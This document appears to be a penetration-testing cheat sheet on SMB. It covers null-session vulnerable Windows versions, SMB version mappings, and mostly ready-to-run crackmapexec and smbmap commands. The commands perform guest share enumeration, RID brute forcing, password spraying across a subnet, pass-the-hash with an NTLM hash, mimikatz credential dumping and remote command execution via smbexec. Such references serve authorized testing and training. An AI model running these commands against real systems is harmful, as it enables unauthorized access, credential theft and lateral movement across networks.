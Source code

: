 - 1. Windows NT, 2000, and XP (most SMB1) - VULNERABLE: Null Sessions can be created by default
- 2. Windows 2003, and XP SP2 onwards - NOT VULNERABLE: Null Sessions can't be created default
- 3. Most Samba (Unix) servers

List of SMB versions and corresponding Windows versions:

- 1. SMB1 – Windows 2000, XP and Windows 2003. 

- 2. SMB2 – Windows Vista SP1 and Windows 2008

- 3. SMB2.1 – Windows 7 and Windows 2008 R2

- 4. SMB3 – Windows 8 and Windows 2012.


## Mount share in localhost
	mkdir /mnt/www
	mount -t  cifs //$ip/www /mtn/www (apt install cifs-util)
## CrackMapExec

	crackmapexec -u 'guest' -p '' --shares $ip
	
	crackmapexec -u 'guest' -p '' --rid-brute 4000 $ip
	
	crackmapexec -u 'guest' -p '' --users $ip
	
	crackmapexec smb [ip] -u [user] -p [password] --shares
	
	crackmapexec smb 192.168.1.0/24 -u Administrator -p P@ssw0rd
	
	crackmapexec smb 192.168.1.0/24 -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B
	
	crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -M mimikatz 192.168.1.0/24
	
	crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B -x whoami $ip
	
	crackmapexec -u Administrator -H E52CAC67419A9A2238F10713B629B565:64F12CDDAA88057E06A81B54E73B949B --exec-method smbexec -x whoami $ip# reliable pth code execution

## smbmap

### List Shares

	smbmap -H [ip]

### Recursively list dirs, and files

	smbmap -R $sharename -H $ip

Works well for listing and downloading files, and listing shares and permissions. Hashes work. Code execution don't work.

	smbmap -u '' -p '' -H $ip # similar to crackmapexec --shares
	